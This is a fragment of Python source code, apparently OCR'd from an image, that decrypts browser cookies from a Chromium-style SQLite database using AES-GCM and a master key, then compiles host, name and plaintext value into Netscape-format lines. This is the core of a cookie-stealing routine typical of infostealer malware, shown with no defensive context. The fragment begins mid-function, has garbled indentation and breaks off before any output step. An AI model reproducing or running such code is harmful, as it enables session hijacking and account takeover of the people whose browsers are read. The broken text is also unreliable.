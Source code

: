         iv = buffer[3:15]

        payload = buffer[15:]

        cipher = AES.new(master_key, AES.MODE_GCM, iv)

        decrypted_cookie = cipher.decrypt(payload)[:-16].decode()

        return decrypted_cookie

    except Exception as e:

        return f"Error decrypting cookie: {e}"





    def process_cookies(cookies_db, master_key, cookies_file_path):

    try:

        cookies_list = ''



        temp_cookies_db = os.path.join(os.path.dirname(cookies_file_path), f"temp_cookies_db_{time.time()}.db")



        with open(temp_cookies_db, "wb") as f:

            f.write(cookies_db)



        conn = sqlite3.connect(temp_cookies_db)

        cursor = conn.cursor()

        cursor.execute("SELECT host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly FROM cookies")



        for item in cursor.fetchall():

            try:

                decrypted_value = decrypt_cookie(item[2], master_key)

                if decrypted_value:

                    cookies_list += f'{item[0]}\t{str(bool(item[5])).upper()}\t{item[3]}\t{str(bool(item[6])) .upper()}\t{item[4]}\t{item[1]}\t{decrypted_value}\n'

            except sqlite3.Error as e:

                print(f"Error cookies: {e}")



        conn.close()

        os.remove(temp_cookies_db)



        if cookies_list:
